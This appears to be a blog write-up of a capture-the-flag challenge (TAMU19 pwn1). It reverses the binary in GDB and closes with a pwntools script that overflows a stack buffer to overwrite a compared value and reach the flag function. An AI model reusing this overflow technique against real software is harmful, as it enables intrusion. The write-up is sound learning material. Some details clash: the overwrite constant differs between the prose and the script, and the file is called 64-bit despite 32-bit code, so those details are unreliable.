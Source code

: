 ```yaml
---
title: Nightmare Series - Stack Smashing (Part 2)
categories:
  - Blog
tags:
  - Reversing
  - Exploits
published: false
---
```


## **File** 04-bof_variable/tmau19_pwn1

## **File Analysis**
File details confirm it is an 64 bit ELF file and symbols are available.

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/file_details.png)

Running the file presents us a basic prompt for input. Feeding with test data displays an error message and exits out. This gives us a clue that the binary expects a certain input answer.

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/basic_run.png)

## **Basic Reverse Engineering**
Using GDB we can see the following high level main function flow:
 - Basic function prologue
 - 2x function calls to 'puts' for initial prompts
 - Several resulting combinations of 'fgets' and 'puts' function calls for user input and further prompts
 - Several conditional jumps after each input is compared to saved value using 'strncmp' function
 - Final comparison to hardcoded value before calling 'print_flag' function
 - Epilogue and exit

From looking at the overall logic, we can see that several inputs are required to make it through various layers or answers before we can reach the 'call print_flag' instruction.

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/main_pt1.png)

## First Answer
Checking out the first chain of function calls, we see an 'fgets' followed by 'strncmp'. The value read in by 'fgets' is in this case stored in the location EBP-0x3b as is shown in the ```LEA EAX, [EBP-0x3b]; PUSH EAX;``` set of instructions (based on CDECL calling conventions) being the second parameter to the 'fgets' function call.

The following block of instructions sets up the variables for the function 'strncmp' which is comparing a saved string value to that which was passed in via the user. The value here is located at offset EBX-0x159f. We can place a quick breakpoint on the previous instruction and  when reached, print the string value contained at the offset giving us our first answer!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/first_answer.png)

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/main_pt2.png)

## Second Answer
We're then greeted with a another prompt for an answer which we can see from the corresponding instruction blocks contains subsequent calls to 'fgets' again followed by 'strncmp', this time with a saved value at offset EBX-0x154d. Following the same routine as above we can print this value using GDB by placing a break point on the instruction just before and view the saved string value the binary expects. We now have our second answer!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/second_answer.png)

At this point we have made it to the third question and this time the input is being compared directly with a hardcoded value of '0xdae110c8' thus controlling the conditional CMP/JNE instruction combination which allows us to reach the 'print_flag' function call or not.

The value is being compared directly with the offset EBP-0x10 on the stack. This is interesting because since if we look back, our previous input answer to this question is loaded (as all others were) at offset EBP-0x3b on the stack. This gives us a nice opportunity to again overflow the stack variable on our final answer, overwrite the location to ensure it contains the expected value and get our flag!

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/stack_diagram.png)

## **Exploit**

In this example, for the exploit to succeed we have to send all of the correct answers we have obtained in the appropriate order including the final exploit answer. The amount of padding data (0x3b-0x10 = 0x2b(43)bytes) required for our last answer followed by our overwrite payload value of '0xdae110c8' will be written to the stack. This should ensure the binary passes the conditional comparison and reaches the 'print_flag' function call instruction. We can receive the output, which contains our flag.

```
from pwn import *

pty = process.PTY
target = process('./pwn1',stdin=pty, stdout=pty)

#Setup responses
string1='Sir Lancelot of Camelot'
string2='To seek the Holy Grail.'
#Final exploit response to overwrite stack location with our controlled value
string3=b'A'*43+p32(0xdea110c8)

# Start the target process
#target = process('./pwn1')

#Recieve first output lines
print(target.recvline(timeout=5))
print(target.recvline(timeout=5))
#Send first answer
target.sendline(string1)

#Second output
print(target.recvline(timeout=5))
#Second answer
target.sendline(string2)

#Third output
print(target.recvline(timeout=5))
#Send third answer including exploit payload
target.sendline(string3)
print(target.recvall())
```

![](/assets/images/stacksmashing02_nightmare_04_tamu19_pwn1/exploit_run.png)
